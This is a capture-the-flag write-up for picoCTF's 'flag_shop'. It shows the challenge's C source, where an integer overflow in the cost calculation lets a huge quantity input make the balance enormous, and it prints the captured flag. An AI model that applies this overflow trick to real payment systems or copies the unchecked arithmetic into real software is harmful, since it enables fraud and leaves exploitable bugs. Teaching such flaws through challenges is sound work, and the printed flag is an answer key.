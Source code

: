 # Notes

## Challenge: flag_shop

A source file in C is given.

### Connection information

```bash
nc jupiter.challenges.picoctf.org 9745
```

### Given C source code

```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while (con == 0)
    {
        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if (menu == 1)
        {
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if (menu == 2)
        {
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if (auction_choice == 1)
            {
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");

                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if (number_flags > 0)
                {
                    int total_cost = 0;
                    total_cost = 900 * number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if (total_cost <= account_balance)
                    {
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else
                    {
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if (auction_choice == 2)
            {
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);

                if (bid == 1)
                {

                    if (account_balance > 100000)
                    {
                        FILE *f = fopen("flag.txt", "r");
                        if (f == NULL)
                        {

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                    }

                    else
                    {
                        printf("\nNot enough funds for transaction\n\n\n");
                    }
                }
            }
        }
        else
        {
            con = 1;
        }
    }
    return 0;
}
```

Compiling the source file.

### Command

```bash
gcc store.c
```

Running a.out provides the following output.Depending on the number input, the program will show different outputs. Connected using the nc connection also connects to the same program.

```
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
```

Going through the program it can be seen that there is a check for account balance **if (account_balance > 100000)**
it will provide the flag.So we need to make the account balance greater than 100000. Looks like using a overflow bug the account balance can be changed to a large number.

### Trying out the solution

```
>> nc jupiter.challenges.picoctf.org 9745

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
1



 Balance: 1100


Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
999999999

The final cost is: -1943133060

Your current balance after transaction: 1943134160

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_65d67a74}
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection

```

### The flag

```
picoCTF{m0n3y_bag5_65d67a74}
```
